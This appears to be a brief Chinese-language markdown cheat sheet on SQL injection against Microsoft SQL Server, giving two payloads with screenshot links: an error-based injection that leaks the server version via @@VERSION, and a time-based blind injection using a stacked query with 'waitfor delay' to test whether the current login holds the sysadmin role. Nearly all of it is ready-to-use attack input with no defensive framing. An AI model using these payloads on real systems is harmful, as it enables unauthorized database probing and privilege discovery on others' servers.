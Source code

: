 # 1、报错注入
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
如下图  
![image](./pic/0.png)

# 1、时间盲注
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
如下图  
![image](./pic/1.png)
